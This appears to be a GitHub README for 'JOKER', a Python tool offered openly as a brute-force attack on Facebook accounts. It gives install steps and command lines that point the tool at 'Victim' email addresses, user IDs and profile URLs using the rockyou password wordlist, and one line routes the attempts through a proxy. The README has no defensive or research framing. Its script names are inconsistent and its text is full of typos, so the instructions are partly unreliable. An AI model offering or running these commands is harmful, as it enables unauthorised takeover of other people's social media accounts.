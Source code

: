 ## Find Fikrado on :
[![Github](https://img.shields.io/badge/Github-fikrado-yellow?style=for-the-badge&logo=github)](https://github.com/fikrado)
[![Instagram](https://img.shields.io/badge/IG-%40mr__yahye-red?style=for-the-badge&logo=instagram)](https://www.instagram.com/mr__yahe)
[![Messenger](https://img.shields.io/badge/telegram-blue?style=for-the-badge&logo=telegram)](https://t.me/fikrado_hacker)
[![Facebook](https://img.shields.io/badge/facebook-black?style=for-the-badge&logo=Facebook)](https://facebook.com/fikrado4048063)
<code><img height="300" src="https://elements-cover-images-0.imgix.net/599cf8df-69ea-42ee-ab6a-23e8d13624f3?auto=compress%2Cformat&fit=max&w=1019&s=0d7fb3fd2fdfba13dd2056a099b22dac"></code>
# JOKER FACEBOOK BRUTAL FORCE ATTACK

## Is facebook burtalforce tool joker brutal force is tested on this os and divces
-------------------------------------------------------------------------------------
### 1: KALI LINUX
### 2: ANY DIBIAN BASED OS AND UBUNTU
### 3: TERMUX 
### 4: ANY OS THAT PYTHON INSTALLED ON IT




,
<!---------------------------------------------------------------------------------------------------!>

## HOW TO INSTALL JOKER BURTAL FORCE
```
apt update

apt install git -y

pkg install python python2 && pip2 install requests mechanize

git clone https://github.com/fikrado/JOKER-burtal-force

cd JOKER-burtal-force

python joker.py

```
### 


## HOW TO USE JOKER BRUTAL FORCE



###

```
      python joker.py -t Victim@gmail.com -w /usr/share/wordlists/rockyou.txt
   
      python joker.py -t 100001013078780 -w C:\\Users\\Me\\Desktop\\wordlist.txt
     
      python jokere.py -t Victim@hotmail.com -w D:\\wordlist.txt -p 144.217.101.245:3129-
      
      python jokery.py -t Victim@gmail.com -s 1234567
     
      python joker.py -g https://www.facebook.com/Victim_Profile
     
```
###

<img src="/jk.PNG" >

